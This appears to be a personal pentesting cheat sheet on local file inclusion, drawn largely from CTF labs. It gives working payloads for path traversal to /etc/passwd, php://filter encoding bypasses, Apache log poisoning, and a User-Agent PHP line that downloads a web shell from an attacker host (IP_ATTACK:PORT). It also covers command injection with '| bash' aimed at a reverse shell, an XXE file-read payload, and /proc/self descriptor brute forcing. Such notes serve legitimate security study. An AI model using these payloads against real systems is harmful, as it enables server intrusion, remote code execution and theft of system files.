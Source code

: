 ```yaml
---
title: LFI 🎃
---
```

## Nice articcles to read

- [invicti.com](https://www.invicti.com/blog/web-security/local-file-inclusion-vulnerability/)
- [outpost24: lfi to RCE](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2/)

## Classic ones

- If you find the php code with the filter like:

```php
        <?php

	    //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
```

- You can just apply a filter like: `http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//../etc/passwd`

## Adding parameter file to url

- Linux File Inclussion
  - Check the `url` adding parameter `file`

![](Pasted%20image%2020240213235821.png)

## Fuzzing it

- FUZZ it using this command:
  - [Useful wordlist found here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/)

```shell
wfuzz -c -w dirTraversal.txt  --hw 0 http://10.10.70.109/?view=FUZZ
```


## Bypassing filters with encodings


- If the backend is filtering by checking the input, try this:

```shell
http://IP/?view=php://filter/FOLDER/convert.base64-encode/resource=index

# example
http://mafialive.thm/test.php?view=//filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php
```

- Check out the &ext variable and put it empty because it won't get the file extension

## Log poisoning

- To perform this, first check out if you have access to the log file in an apache with Burpsuite:



- Log file contamination

```shell
http://IP/?view=dog../../../../../cat/../var/log/apache2/access.log&ext=
```


## Exploiting the User-Agent field

- Exploit the User-Agent Field:
  - First create a shell like the PentestMonkey one
  - Create a python server
  - Load the petition (like log file contamination petition) and capture it with BurpSuite
  - Modify the User-Agent field with this command:

```shell
<?php file_put_contents('shell.php', file_get_contents('http://IP_ATTACK:PORT/shell.php'))?>
```

- Then access to `http://IP/shell.php` and you got the reverse shell

## Regex filtering

When we can echo commands try and it's using a regex like: `/[#!@%^&*()$_=\[\]\';,{}:>?~\\\\]/` try:

```shell
http://IP_HOST/echo.php?search=id+|+bash
# Then just try other commands like
echo.php?search=ls+|+bash
# Then try to input a reverse shell
```

## Web filtering

If a web shell filters your input, try to encode it into `base64`

![](Pasted%20image%2020240417160455.png)

- If it doesn't work, try some [Command Injection 💄](command_injection.md)

## XML file inclusion (XXE)

- If a web accepts XML, it could be vulnerable to XXE.
- You can try to upload a code like this to inspect the system:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY name SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>&name;</name>
  <author>Pavandeep</author>
  <com>Hacking Articles</com>
</comment>
```

- Change the `"file:///etc/passwd"` for the one you want

## Lfi to RCE

If you can read some files by some kind of escape, we can bruteforce the `/proc/self/` directory in Apache.

This directory holds information about different processes. Each process is distinguished by its PID as shown below:

![](Pasted%20image%2020240501160143.png)

Every process can access its available information by requesting the `/proc/self` directory.

As Apache is requesting this file (via the LFI vulnerability) and since the file is located inside Apache’s proc directory, we can use `/proc/self` instead of searching for Apache’s PID. In a brief recap we could say that `/proc/self/environ` is – roughly- equal to `/proc/<apache_pid>/environ`.

The contents of this directory are [symbolic links](https://www.nixtutor.com/freebsd/understanding-symbolic-links/) pointing to the actual file of the process’ open file handlers:

![](Pasted%20image%2020240501160310.png)

It goes without saying that during the attack we do not know which symbolic link points to which file. The file we will be interested in is the Apache [access log](https://httpd.apache.org/docs/2.4/logs.html#accesslog). We choose this file as it’s dynamic and can be changed based on our input.

To identify the file, we will use Burp Intruder.

> First, we set up the position of our payload.

![](Pasted%20image%2020240501160409.png)

> As File Descriptors are identified by a numeric id, we choose the proper payload. `Payloads > Payload type: Numbers`

![](Pasted%20image%2020240501160501.png)

> A successfull attack should look like:

![](Pasted%20image%2020240501161147.png)

Now we would perform a **Log Poisoning** attack.

## Path traversal

- Nice tool to use (automatic tool): [PathTraversal](https://github.com/gotr00t0day/PathTraversal)

Example:

```shell
https://invented-domain.com/image?filename=image.png
# You can perform
https://invented-domain.com/image?filename=....//....//....//etc/passwd
```

Otherwise, if you want to do it manual you can use BurpSuite and try some combinations.